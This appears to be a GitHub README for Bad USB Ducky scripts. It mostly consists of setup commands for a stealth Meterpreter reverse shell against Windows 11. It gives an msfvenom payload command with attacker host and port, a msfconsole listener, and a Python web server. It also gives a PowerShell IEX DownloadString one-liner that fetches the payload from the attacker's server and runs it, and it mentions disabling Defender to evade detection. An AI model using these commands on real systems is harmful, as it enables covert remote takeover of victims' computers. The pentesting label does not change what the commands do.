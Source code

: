# Various Ducky scripts for Bad USBs
### Can be used for pentesting or administrative tasks. 
# On The Attacker's Machine
### Below text applies to the stealth reverse shell.
### Requires Admin privileges to disable Defender. Otherwide payload may be detected.
### Tested on Windows 11 Home
### Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
### Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
### Start python http server<br/>
python3 -m http.server 80<br/>
### Ducky script will download and execute powershell script opening meterpreter session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')


